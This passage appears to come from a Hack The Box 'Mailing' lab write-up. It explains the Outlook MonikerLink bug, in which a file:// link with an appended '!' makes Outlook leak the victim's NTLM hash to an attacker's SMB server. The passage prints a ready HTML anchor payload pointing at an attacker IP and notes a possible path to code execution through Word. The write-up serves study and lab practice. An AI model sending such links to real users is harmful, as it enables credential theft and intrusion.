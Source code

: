 The script for this exploit requires SMTP authentication to bypass email security mechanisms like SPF, DKIM, and DMARC. By sending an email from a legitimate account (e.g., administrator@mailing.htb) to the victim (e.g., maya@mailing.htb), the attacker can trigger the vulnerability. The attacker controls a server (e.g., running Responder) to capture the victim's NTLM hash when the victim's Outlook client attempts to authenticate

This vulnerability occurs because Outlook automatically processes certain remote resources in emails without user interaction. When Outlook receives an email containing a malicious link to a file hosted on the attacker's server (e.g., via their IP), it attempts to fetch that file automatically. During this process, Outlook sends the victim's NTLM credentials to the attacker's server, enabling the attacker to capture them

Outlook generally handles web links starting with `http://` or `https://` by opening them in the default browser. For protocols like `skype://`, Outlook prompts with a security warning

![Security Warning](/assets/images/HTB%20-%20Mailing/Outlook%20Security%20Notice.png)

When it comes to file links (e.g, `file://`), Outlook blocks access to remote resources, preventing credentials from leaking through the SMB protocol, which obviously exposes NTLM credentials

### The MonikerLink Bug

When a slight modification is amde to the file link such as appending an exclamation mark (`!`) and additional characters, as in:

```html
<a href="file:///\\10.10.111.111\test\test.rtf!something">CLICK ME</a>
```

Outlook bypasses the security restriction, attempts to access the remote file, and leaks the user's NTLM creds through SMB

### Exploit Mechanism:

The modified hyper link is treated as a **"Moniker Link"**, a concept in Windows' Component Object Model (COM). The "Moniker Link" is parsed by Outlook using the `mkParseDisplayName()` API, which treats the link as a COM object lookup

#### Summary

1. **Normal behavior**: Outlook blocks `file://` links to prevent NTLM credential leaks.
2. **Moniker link bug**: Adding `!` to a `file://` link (e.g., `file://\\server\file.rtf!`) tricks Outlook into handling it as a Moniker link.
3. **Exploit mechanism**: Outlook calls a Windows API (`MkParseDisplayName()`) and uses Word as a background COM server to open the remote `.rtf` file.
4. **Outcome**: If the `.rtf` is malicious, it can lead to remote code execution by exploiting Word, bypassing security protections like Protected View.
